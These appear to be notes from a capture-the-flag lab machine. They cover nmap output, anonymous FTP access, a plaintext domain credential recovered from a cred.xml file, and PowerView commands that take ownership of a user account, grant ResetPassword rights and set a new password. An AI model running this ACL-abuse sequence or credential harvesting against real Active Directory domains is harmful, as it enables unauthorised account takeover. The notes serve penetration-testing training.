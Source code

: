 IP = 10.10.10.77

Nmap (nmap -p- -Pn 10.10.10.77)
```bash
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
25/tcp open  smtp
```

Nmap2 (nmap -p 21,22,25 -sC -sV -Pn 10.10.10.77)
```bash
PORT   STATE SERVICE VERSION                                               
21/tcp open  ftp     Microsoft ftpd                                               
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                             
|_05-28-18  11:19PM       <DIR>          documents  
| ftp-syst:                             
|_  SYST: Windows_NT                            
22/tcp open  ssh     OpenSSH 7.6 (protocol 2.0)                             
| ssh-hostkey:                            
|   2048 82:20:c3:bd:16:cb:a2:9c:88:87:1d:6c:15:59:ed:ed (RSA)        
|   256 23:2b:b8:0a:8c:1c:f4:4d:8d:7e:5e:64:58:80:33:45 (ECDSA)         
|_  256 ac:8b:de:25:1d:b7:d8:38:38:9b:9c:16:bf:f6:3f:ed (ED25519)           
25/tcp open  smtp?                           
| smtp-commands: REEL, SIZE 20480000, AUTH LOGIN PLAIN, HELP    
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY       
| fingerprint-strings:                             
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Kerberos, LDAPBindReq, LDAPSearchReq, LPDString, NULL, RPCCheck
, SMBProgNeg, SSLSessionReq, TLSSessionReq, X11Probe:
|     220 Mail Service ready 
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, RTSPRequest:
|     220 Mail Service ready 
|     sequence of commands 
|     sequence of commands  
|   Hello:       
|     220 Mail Service ready 
|     EHLO Invalid domain address.
```

AppLocker.docx (ftom ftp):
![[Pasted image 20220224103624.png]]

Hostnames from windows-event...pdf
```
LAPTOP12.HTB.LOCAL
WEF.HTB.LOCAL
```

Credentials (from C:\Users\nico\Desktop\cred.xml)
```
HTB\Tom : 1ts-mag1c!!!
```

note
```
Findings:                                                                                                     

Surprisingly no AD attack paths from user to Domain Admin (using default shortest path query).                

Maybe we should re-run Cypher query against other groups we've created.    
```

Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "Burnbaby1!" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred